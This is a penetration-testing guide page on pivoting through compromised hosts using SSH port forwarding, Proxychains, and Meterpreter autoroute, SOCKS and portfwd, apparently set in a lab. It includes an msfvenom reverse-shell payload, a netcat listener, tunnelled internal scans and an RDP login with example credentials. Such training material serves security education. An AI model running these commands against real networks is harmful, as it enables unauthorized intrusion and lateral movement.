


# 🔑 SSH & Meterpreter Tunneling

When you land on a compromised host that has SSH access, you already hold the keys to the kingdom. SSH's built-in port forwarding capabilities, combined with Meterpreter's `autoroute` and `portfwd` commands, form the foundation of most pivot chains. This page walks through the *techniques* — for the full SSH tool reference, see the [SSH Tunneling Deep Dive](ssh.md).

---

## 1. Dynamic Port Forwarding with SSH & SOCKS Tunneling

Dynamic port forwarding turns your compromised SSH host into a full SOCKS proxy server. Instead of forwarding a single port, you create a local SOCKS listener that can route traffic to *any* host and port reachable from the SSH server.

### The Concept



### Setting Up the SOCKS Proxy

```bash
# Create a SOCKS proxy on port 9050 through the pivot host
ssh -D 9050 ubuntu@10.129.202.64
```

This opens a SOCKS4/5 listener on `127.0.0.1:9050`. Any traffic sent to this port is forwarded through the SSH tunnel and exits from the pivot host into the internal network.

### Enabling Proxychains

Edit `/etc/proxychains4.conf` to point at your new SOCKS proxy:

```ini
[ProxyList]
socks5  127.0.0.1 9050
```

!!! tip
    Use `dynamic_chain` mode in Proxychains so dead proxies are skipped gracefully. See the [Proxychains Deep Dive](proxychains.md) for full configuration details.

### Scanning Through the Tunnel

```bash
# TCP connect scan through the SOCKS proxy — ICMP and SYN scans won't work
proxychains nmap -sT -Pn -p 21,22,80,135,139,445,3389 172.16.5.19
```

!!! warning
    **Key limitation:** SOCKS proxies only handle TCP. You **cannot** use `-sS` (SYN scan), `-sU` (UDP scan), or `ping` through Proxychains. Always use `-sT` (TCP Connect) and `-Pn` (skip host discovery).

### Using Metasploit Through the Proxy

You can route Metasploit modules through the SOCKS proxy by setting `Proxies`:

```bash
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.16.5.19
msf6 auxiliary(scanner/smb/smb_version) > set Proxies socks5:127.0.0.1:9050
msf6 auxiliary(scanner/smb/smb_version) > run
```

---

## 2. Remote/Reverse Port Forwarding with SSH

When you need to bring traffic *back* from the internal network to your attack machine — for example, to catch a reverse shell from a deep target — you use remote (reverse) port forwarding.

### Scenario

You've compromised `10.129.202.64` (the pivot host). From it, you can reach `172.16.5.19` on the internal network. You want to run a reverse shell payload on `172.16.5.19` that connects back to your Kali box, but `172.16.5.19` cannot reach your Kali directly.



### Creating the Reverse Tunnel

```bash
# From your Kali box, SSH into the pivot and set up the reverse forward
ssh -R 172.16.5.19:8080:0.0.0.0:8080 ubuntu@10.129.202.64 -vN
```

This tells the pivot host: "Listen on port 8080, and anything that connects gets forwarded back through the tunnel to my port 8080."

### Catching the Shell

```bash
# On Kali — start your listener
nc -lvnp 8080
```

### Generating and Executing the Payload

```bash
# Create a Windows reverse shell payload pointing to the pivot host
msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.5.19 -f exe -o backupscript.exe LPORT=8080
```

Transfer and execute on `172.16.5.19`. The shell hits the pivot host on port 8080, traverses the SSH tunnel, and lands on your Kali listener.

---

## 3. Meterpreter Tunneling & Port Forwarding

If you have a Meterpreter session on the pivot host, Metasploit provides built-in pivoting capabilities without needing SSH access.

### AutoRoute — Adding Internal Network Routes

The `autoroute` module tells Metasploit to route traffic for specific subnets through an existing Meterpreter session.

```bash
# Background your current session
meterpreter > background

# Use the autoroute post module
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

After autoroute runs, any Metasploit module targeting `172.16.5.0/24` will automatically route through Session 1.

### Creating a SOCKS Proxy via Metasploit

```bash
# Start a SOCKS5 proxy inside Metasploit
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
```

Now configure Proxychains to use `socks5 127.0.0.1 9050` and you can run tools like `nmap`, `crackmapexec`, etc. through the Meterpreter pivot.

### Portfwd — Individual Port Forwarding

The `portfwd` command inside a Meterpreter session lets you forward individual ports:

```bash
# Forward local port 3300 to 172.16.5.19:3389 (RDP) through the session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

You can now RDP to the internal host:

```bash
xfreerdp /v:127.0.0.1:3300 /u:administrator /p:'Password123!'
```

### Reverse Port Forward with Meterpreter

To catch reverse shells from deep targets:

```bash
# Create a reverse port forward: anything hitting the pivot on port 1234
# gets forwarded back to your local port 1111
meterpreter > portfwd add -R -l 1111 -p 1234 -L 10.10.14.18
```

Set up a multi/handler on port 1111, execute the payload on the internal target pointing to the pivot's IP on port 1234, and catch the shell.

---

## 4. Cheatsheet

| Technique | Command |
| :--- | :--- |
| **SSH Dynamic Forward** | `ssh -D 9050 user@pivot` |
| **SSH Remote Forward** | `ssh -R <remote_port>:127.0.0.1:<local_port> user@pivot` |
| **SSH Background Tunnel** | `ssh -D 9050 -N -f -T user@pivot` |
| **MSF AutoRoute** | `use post/multi/manage/autoroute` → set SESSION + SUBNET |
| **MSF SOCKS Proxy** | `use auxiliary/server/socks_proxy` → set SRVPORT |
| **Meterpreter portfwd** | `portfwd add -l <lport> -p <rport> -r <target>` |
| **Meterpreter reverse portfwd** | `portfwd add -R -l <lport> -p <rport> -L <your_ip>` |
| **Proxychains + Nmap** | `proxychains nmap -sT -Pn -p <ports> <target>` |
